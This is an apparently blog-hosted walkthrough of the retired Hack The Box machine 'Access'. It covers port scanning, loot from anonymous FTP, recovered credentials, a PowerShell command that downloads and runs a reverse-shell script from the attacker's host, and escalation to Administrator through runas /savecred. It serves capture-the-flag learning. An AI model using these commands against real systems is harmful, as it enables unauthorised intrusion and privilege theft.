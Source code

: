 ```yaml
---
layout: post
title: "Access: Hack The Box Walkthrough"
date: 2019-03-03 04:43:45 +0000
last_modified_at: 2019-03-03 04:46:16 +0000
category: Walkthrough
tags: ["Hack The Box", Access, retired]
comments: true
image:
  feature: access-htb-walkthrough.jpg
  credit: Pexels / Pixabay
  creditlink: https://pixabay.com/en/dark-door-door-handle-light-open-1852985/
---
```


This post documents the complete walkthrough of Access, a retired vulnerable [VM][1] created by [egre55][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post
{:.no_toc}

* TOC
{:toc}

## Background

Access is a retired vulnerable VM from Hack The Box.

## Information Gathering

Let’s start with a `masscan` probe to establish the open ports in the host.

```
# masscan -e tun0 -p1-65535,U:1-65535 10.10.10.98 --rate=1000

Starting masscan 1.0.4 (http://bit.ly/14GZzcT) at 2019-02-09 10:37:40 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 80/tcp on 10.10.10.98
Discovered open port 23/tcp on 10.10.10.98
Discovered open port 21/tcp on 10.10.10.98
```

`masscan` finds three open ports: `21/tcp`, `23/tcp` and `80/tcp`. Let's do one better with `nmap` scanning these discovered ports.

```
# nmap -n -v -Pn -p21,23,80 -A --reason -oN nmap.txt 10.10.10.98
...
PORT   STATE SERVICE REASON          VERSION
21/tcp open  ftp     syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|_  SYST: Windows_NT
23/tcp open  telnet? syn-ack ttl 127
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
```

Since anonymous FTP is allowed, let's check it out first.


{% include image.html image_alt="ee418d6f.png" image_src="/7fed0dbf-8034-4ae6-9c37-204415d681a3/ee418d6f.png" %}


There's a huge file in the `Backups` directory—`backup.mdb`. It appears to be a Microsoft Access Jet Database (MDB) file.


{% include image.html image_alt="0ce46389.png" image_src="/7fed0dbf-8034-4ae6-9c37-204415d681a3/0ce46389.png" %}


There's also a big file—`Access Control.zip`, in the `Engineers` directory.


{% include image.html image_alt="ea05e083.png" image_src="/7fed0dbf-8034-4ae6-9c37-204415d681a3/ea05e083.png" %}


The archive file is password-protected and it appears to contain a Personal Storage Table (PST) file in it.

### Microsoft Office

I know there are Linux tools to read MDB and PST files but for the sake of convenience, let's use Microsoft Office to open them. I'll use Microsoft Access to read the MDB file. Here's what I found in the `auth_user` table.


{% include image.html image_alt="access.png" image_src="/7fed0dbf-8034-4ae6-9c37-204415d681a3/access.png" %}


The password `access4u@security` is the one to extract the PST file from the archive. I'll use Microsoft Outlook to read the PST file. There's only one email in the mailbox.


{% include image.html image_alt="outlook.png" image_src="/7fed0dbf-8034-4ae6-9c37-204415d681a3/outlook.png" %}


Another credential (`security:4Cc3ssC0ntr0ller`) in the bag!

### Telnet

Let's give the credential a shot with the Telnet service.


{% include image.html image_alt="16c6c1e1.png" image_src="/7fed0dbf-8034-4ae6-9c37-204415d681a3/16c6c1e1.png" %}


Awesome.

The file `user.txt` is at `security`'s desktop.


{% include image.html image_alt="0c8d6cb5.png" image_src="/7fed0dbf-8034-4ae6-9c37-204415d681a3/0c8d6cb5.png" %}


## Privilege Escalation

Telnet is painfully slow. Let's run a reverse shell in PowerShell. First of all, let's write a `wget` script in PowerShell. Note that this system is running Windows Server 2008. As such, only PowerShell 2.0 is available. Echo the following lines to `C:\Users\security\Downloads\wget.ps1`.

```powershell
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadFile($Args[0],$Args[1])
```


{% include image.html image_alt="7638e0eb.png" image_src="/7fed0dbf-8034-4ae6-9c37-204415d681a3/7638e0eb.png" %}


Next, generate a reverse shell in PowerShell with `msfvenom` like so.


{% include image.html image_alt="bfe9f363.png" image_src="/7fed0dbf-8034-4ae6-9c37-204415d681a3/bfe9f363.png" %}


Run the following commands in the `telnet` session to transfer `rev.ps1` over.

```
powershell -ExecutionPolicy Bypass -File wget.ps1 http://10.10.12.246/rev.ps1 rev.ps1
```

Now, we can execute the reverse shell with the following command.

```
powershell -ExecutionPolicy Bypass -NoExit -File rev.ps1
```

The `-NoExit` switch indicates that we don't want to exit from the thread. We should get a reverse shell in our `nc` listener.


{% include image.html image_alt="5f59bc8d.png" image_src="/7fed0dbf-8034-4ae6-9c37-204415d681a3/5f59bc8d.png" %}


During enumeration of `security`'s account, I ran the `cmdkey` command to list the stored credentials in the box and this is what I saw.


{% include image.html image_alt="d1e7b1c4.png" image_src="/7fed0dbf-8034-4ae6-9c37-204415d681a3/d1e7b1c4.png" %}


Perfect. This means that I can use the `/savecred` switch in `runas` to impersonate Administrator without knowing the password! Now, let's claim the prize with the following command:

```
C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\security\Downloads\root.txt"
```


{% include image.html image_alt="6874f21f.png" image_src="/7fed0dbf-8034-4ae6-9c37-204415d681a3/6874f21f.png" %}


:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/156
[2]: https://www.hackthebox.eu/home/users/profile/1190
[3]: https://www.hackthebox.eu/
